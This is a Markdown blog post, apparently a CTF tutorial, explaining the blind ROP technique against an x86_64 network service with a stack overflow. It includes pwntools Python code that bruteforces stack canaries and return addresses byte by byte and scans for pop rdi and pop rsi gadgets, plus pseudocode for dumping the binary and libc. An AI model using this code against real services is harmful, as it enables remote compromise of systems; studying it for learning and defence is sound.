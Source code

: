 ```yaml
---
layout: post
title:  "x86_64 Blind Rop"
date:   2018-07-15 11:22:06 +0100
tag: pwning
---
```

## Please read the [disclaimer]({{ site.baseurl }}{% link 9.disclamer.md %})

Hoy, in this post I will introduce you to an advanced exploitation technique called `blind rop`, so what is a blind rop?

"The BROP attack makes it possible to write exploits without possessing the target's binary. It requires a stack overflow and a service that restarts after a crash. Based on whether a service crashes or not (i.e., connection closes or stays open), the BROP attack is able to construct a full remote exploit that leads to a shell." [[1]][1]

TL;TR, blind rop is a **technique** used when we can't get our hands on the vulnerable binary.
I will divide this attack into parts:
- Looking for a vulnerability.
- Extracting critical intel like canaries, the return address, OLD stack frame pointer etc... . 
- Searching for the right rop gadgets.
- Dumping the binary and libc.

I will illustrate this technique by using a binary rom a capture the flag competition, so let's get started !

# 0) Looking for a vulnerability:

We first start by poking around, our goal is to find a vulnerability **buffer overflow**, **format string vulnerability** ...

![blind_rop_find_vuln0]({{ "/assets/img/blind_rop_find_vuln0.png" | absolute_url }})

After fuzzing the binary, we can find that if we input a large buffer the service crashes and no more "**Bye!**" sadly.

![blind_rop_find_vuln1]({{ "/assets/img/blind_rop_find_vuln1.png" | absolute_url }})

This service has a **buffer overflow** vulnerability ! and the lenght of the buffer is 40 bytes give it more and it crashes.

# 1) Extracting critical intel:

Our next goal is to leak critical intel from the stack, like **canaries** if the binary has a `stack smashing protection`, **the return address**, and **the old stack frame pointer**.

To do so we will have to bruteforce byte by byte, if we receive the "**Bye!**" that means its the correct byte.
Here is a small snippet of code:

{% highlight python linenos %}
def bruteforce():
	for j in range(0, 8*3):
		for i in range(0, 256):
			if i == 10: # the service is using a function that stop reading when it hits a new line
				continue
			r = remote(host, port, level='ERROR')

			payload = 'A'*40 + data + chr(i)	
			
			r.recvuntil('(chocolate/beer/hamburger): ')

			r.send(payload)

			r.recvuntil('are out of stock\n')

			try:

				recved = r.recv(128, timeout=5)

			except Exception:
				r.close()
				continue

			if 'Bye!' in recved:
				data += chr(i)
				print list(data)
				r.close()
				break
			r.close()
{% endhighlight %}


With this we can extract most information we need

![blind_rop_leaking0]({{ "/assets/img/blind_rop_leaking0.png" | absolute_url }})


# 2) Searching for the right rop gadgets:

To build our exploit we will need some important rop gadgets like: `pop rdi;ret` `pop rsi;pop r15;ret` to be able to pass the first 2 arguments to functions.

So our goal is to find those gadgets inside the binary, we can either start our scanning from the binary base, or from the return address.
The idea is to chain a rop gadget like the following:

`pop_rdi_ret candidate` + `random 8 bytes` + `the original return address`

`pop_rsi__r15_ret candidate` + `random 8 bytes` + `random 8 bytes` + `the original return address`

and use "**Bye!**" as a reference of success !


Here is a small snippet of code:

{% highlight python linenos %}
def find_rops(addr):
	global data
	global rops

	while True:

		r = remote(host, port, level='ERROR')

		# for pop rdi ; ret
		payload = 'A'*40 + canary + ebp + p64(addr) + p64(0) + ret_address
		# for pop rsi ; pop r15 ; ret
		payload = 'A'*40 + canary + ebp + p64(addr) + p64(0) + p64(0) + ret_address

		r.recvuntil('(chocolate/beer/hamburger): ')

		r.send(payload)

		r.recvuntil('are out of stock\n')

		try:
			recved =''
			recved = r.recv(128, timeout=7)
			print recved
		except Exception:
			addr += 1
			r.close()
			continue

		if 'Bye!' in recved:
			if hex(addr & 0xffff) not in not_rops:
				rops.append(hex(addr & 0xfff))
		r.close()
		addr += 1
{% endhighlight %}

This gives us 2 lists of candidates, one for `pop rdi;ret`  and another one for `pop rsi;pop r15;ret`.
Now we have to figure out which ones are the one we need, right?.

# 3) Dumping the binary and libc:

The idea is to bruteforce the binary starting from the return address until we reach the got entry for a function that sends data back to us, like `write`, `send` etc...

To do so, will combine the 2 lists of candidate gadgets, and build a rop chain that send us data.
Let's illustrate this with some algorithmic:

{% highlight linenos %}
addr = return_address
do
	for pop_rdi in pop_rdi_candididates:
		for pop_rsi_r15 in pop_rsi_r15_candididates:
			payload  = "junk for overflowing" 
			payload += pop_rdi
			payload += "socket FD to send data back too"
			payload += pop_rsi_r15
			payload += "an address to leak, like binary base"
			payload += " 8 junk bytes"
			payload += addr
	addr += 1
while not receiving any data 
{% endhighlight %}

After finding the right address for a send function, and the right rop gadgets, we can start **dumping** libc and the binary from memory for future gadgets like `syscall`, `pop rdx` or we can simply call system function from libc.

With all this information, building an exploit is trivial, you can find a copy of the binary [here]({{ "/assets/downloads/brop_binary.zip" | absolute_url }}).



[pwntools-website]: https://docs.pwntools.com/en/stable
[0x00sec-website]:  https://0x00sec.org
[checksec-gitgub]:  https://github.com/slimm609/checksec.sh
[ROPgadget-gitgub]: https://github.com/JonathanSalwan/ROPgadget
[libc-database]:    https://libc.blukat.me
[1]: http://www.scs.stanford.edu/brop/